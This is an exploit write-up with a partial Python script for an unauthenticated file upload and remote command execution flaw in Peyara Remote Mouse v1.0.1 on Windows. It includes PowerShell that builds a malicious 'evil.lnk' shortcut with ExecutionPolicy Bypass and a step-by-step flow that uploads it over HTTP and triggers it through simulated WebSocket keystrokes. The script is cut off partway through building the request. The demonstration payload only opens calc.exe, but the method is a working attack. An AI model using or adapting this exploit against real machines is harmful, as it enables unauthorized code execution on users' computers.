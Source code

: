 ### Exploit Title: Peyara Remote Mouse v1.0.1 FILE UPLOAD
### Date: 2025-01-06
### Exploit Author: tmrswrr
### Software Link: https://peyara-remote-mouse.vercel.app/
### Platform: Windows
### Version: v1.0.1
### Tested on: Windows 10

```bash
USAGE : python3 combined_script.py <target_ip> <path_to_lnk_file>
```
"""
Create evil.lnk file: 

$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("$env:USERPROFILE\Desktop\evil.lnk")
$Shortcut.TargetPath = "powershell.exe"
$Shortcut.Arguments = '-NoProfile -ExecutionPolicy Bypass -Command "Start-Process calc.exe"'
$Shortcut.WorkingDirectory = "%USERPROFILE%"
$Shortcut.IconLocation = "%SystemRoot%\System32\shell32.dll,1"
$Shortcut.Save()

Exploit Flow: Upload evil.lnk via HTTP POST → Establish WebSocket → Simulate Ctrl+Esc + cmd + Enter → Execute LNK via for %i in ("%USERPROFILE%\Desktop\*evil.lnk") do start "" "%i"
You will be see opening calc.exe


"""
### EXPLOIT
```
#!/usr/bin/env python3
import asyncio
import websockets
import json
import argparse
import requests
import os


BOUNDARY = "rEZVajKDyijVrXLV2h8zOkgpm4x2NfDfmVs4UdvkPQwgoATx18zpO9ecnaRDQgVDjrOmpt"

def upload_file(target_ip, file_path):
    """Upload a file to the target server"""
    url = f"http://{target_ip}:1313/upload"
    filename = "evil.lnk"  
    

    try:
        with open(file_path, "rb") as f:
            file_content = f.read()
        print(f"Read {len(file_content)} bytes from {file_path}")
    except Exception as e:
        print(f"Error reading file: {e}")
        return False


    headers = {
        "Host": f"{target_ip}:1313",
        "Connection": "keep-alive",
        "Accept": "application/json, text/plain, */*",
        "User-Agent": "Peyara/4 CFNetwork/1496.0.7 Darwin/23.5.0",
```